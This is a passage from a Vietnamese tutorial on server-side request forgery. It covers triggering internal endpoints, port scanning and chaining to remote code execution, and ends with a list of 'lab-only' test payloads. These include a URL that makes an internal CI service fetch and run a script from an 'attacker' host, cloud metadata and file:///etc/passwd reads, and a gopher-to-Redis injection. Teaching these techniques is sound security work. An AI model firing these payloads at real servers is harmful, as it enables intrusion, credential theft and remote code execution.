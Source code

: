 **Ví dụ:**

* Server có endpoint `http://localhost:9000/shutdown` chỉ accessible nội bộ. Attacker cung cấp URL tới đó — server thực thi lệnh shutdown.
* Nếu target gửi cookie/session nội bộ khi request, action xảy ra với quyền server.

**Payload:**

```
/fetch?url=http://127.0.0.1:9000/shutdown
```

**Hậu quả:** thao tác nội bộ, thay đổi config, truy vấn nội bộ.


## F. SSRF → Port Scanning / Internal Reconnaissance

**Mô tả:** attacker dùng SSRF để nối nhiều request/paths nhằm dò cổng hoặc dịch vụ nội bộ (ví dụ check 127.0.0.1:22, :80, :6379…).

**Phương pháp:** gửi nhiều URL khác nhau qua tham số fetch và infer cổng mở/đóng theo phản hồi/timeouts.

**Ví dụ payload sequence (lab):**

```
/fetch?url=http://127.0.0.1:22/
/fetch?url=http://127.0.0.1:80/
/fetch?url=http://127.0.0.1:6379/
```

**Hậu quả:** mapping internal network, tìm service vulnerable.


## G. SSRF → RCE (gián tiếp)

**Mô tả:** SSRF bản thân không chạy code, nhưng có thể kích hoạt RCE nếu server gọi một dịch vụ nội bộ có lỗ hổng (admin interface, deserialization endpoint, CI runner, template engines that fetch URLs and evaluate content).

**Ví dụ chuỗi:**

1. SSRF → gọi internal CI endpoint `/run?scriptUrl=http://attacker/payload`
2. CI tải script từ attacker và thực thi → RCE.

**Ví dụ payload (chuỗi attack, lab-only):**

```
/fetch?url=http://127.0.0.1:8080/run?scriptUrl=http://attacker/payload
```

**Hậu quả:** RCE, persistent compromise.


# 3) Kỹ thuật mô phỏng / payload thường dùng khi test (lab-only)

* In-band HTTP: `http://attacker.com/ping`
* Internal metadata (AWS): `http://169.254.169.254/latest/meta-data/`
* file scheme: `file:///etc/passwd`
* gopher to Redis (raw): `gopher://127.0.0.1:6379/_SET%20pwn%20hello%0D%0A`
* LDAP: `ldap://127.0.0.1:389/`
* OOB detection: `http://<random>.oob-server.com/` (monitor logs/DNS)
